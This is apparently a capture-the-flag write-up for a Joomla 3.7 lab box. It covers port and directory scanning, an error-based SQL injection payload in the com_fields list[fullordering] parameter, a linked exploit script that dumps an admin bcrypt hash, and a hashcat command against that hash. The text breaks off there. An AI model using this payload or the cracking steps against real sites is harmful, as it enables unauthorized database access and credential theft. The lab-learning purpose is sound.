








# DailyBugle

Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum.

# Recon

```
❯ sudo rustscan -a 10.10.212.208 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.212.208
Host is up, received user-set (0.080s latency).
Scanned at 2021-10-08 15:54:20 EDT for 51s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods:
|_  Supported Methods: OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)
```

Starting with the web page, standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.212.208 | tee whatweb.log
# Summary   : PHP[5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], Script[application/json], Apache[2.4.6], X-Powered-By[PHP/5.6.40], Bootstrap, HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], PasswordField[password], JQuery, MetaGenerator[Joomla! - Open Source Content Management], Cookies[eaa83fe8b963ab08ce9ab7d4a798de05]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.212.208
http://10.10.212.208/bin                  (Status: 200) [Size: 31]
http://10.10.212.208/cache                (Status: 200) [Size: 31]
http://10.10.212.208/cgi-bin/             (Status: 403) [Size: 210]
http://10.10.212.208/components           (Status: 200) [Size: 31]
http://10.10.212.208/configuration.php    (Status: 200) [Size: 0]
http://10.10.212.208/images               (Status: 200) [Size: 31]
http://10.10.212.208/includes             (Status: 200) [Size: 31]
http://10.10.212.208/layouts              (Status: 200) [Size: 31]
http://10.10.212.208/language             (Status: 200) [Size: 31]
http://10.10.212.208/LICENSE.txt          (Status: 200) [Size: 18092]
http://10.10.212.208/libraries            (Status: 200) [Size: 31]
http://10.10.212.208/media                (Status: 200) [Size: 31]
http://10.10.212.208/modules              (Status: 200) [Size: 31]
http://10.10.212.208/plugins              (Status: 200) [Size: 31]
http://10.10.212.208/README.txt           (Status: 200) [Size: 4494]
http://10.10.212.208/robots.txt           (Status: 200) [Size: 836]
http://10.10.212.208/templates            (Status: 200) [Size: 31]
http://10.10.212.208/tmp                  (Status: 200) [Size: 31]
http://10.10.212.208/web.config.txt       (Status: 200) [Size: 1690]
```

Browsing to main page:



Checking out `README.txt` we see a partial version number for Joomla (3.7):



:exclamation: :exclamation:

NOTE: after looking at a writeup later, I found you can get the exact version of Joomla by visiting the following URL:

- http://host-ip/administrator/manifests/files/joomla.xml



Poking around under the `/administrator` path would have yielded these results eventually.

At `/administrator` there is a Joomla admin panel login:



And at the next level (`/administrator/manfiests`), there is an index-of page to browse the directory tree:



:exclamation: :exclamation:

Checking out searchsploit for `joomla 3.7`:



Looks like there might be SQL injection vulnerabilities?

Starting with first result:

- https://www.exploit-db.com/exploits/44227

It is a php script, which has this interesting part:

```php
$inject=$target.'/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=';

$payload='1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1';
$final_url=$inject.$payload;
```

So maybe some injection in the `com_fields` option. This lines up with the title of the 2nd searchsploit result.

- https://www.exploit-db.com/exploits/42033

This one highlights the same vulnerable URL: `/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

It also gives 3 methods of exploiting

- boolean-based blind
- error-based
- time-based blind

Browsing to the following URL (from exploit 44227):

- `http://10.10.212.208/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1`



This yields the hex string "6662396A355F617373657473", which decodes to "fb9j5_assets".

Definitely vulnerable!

# Exploit

Googling for `joomla 3.7 exploit` turns up a python script that might help:

- https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Testing it out.



The script works like a charm. Got super user `jonah` with a password hash!

Looking at hashcat example hashes (https://hashcat.net/wiki/doku.php?id=example_hashes), it seems this fits the format of `bcrypt` (`$2*$`), mode 3200. Plugging into hashcat:

```sh
❯ hashcat -O -a0 -w3 --quiet -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /mnt/vm-share/rockyou.txt

```

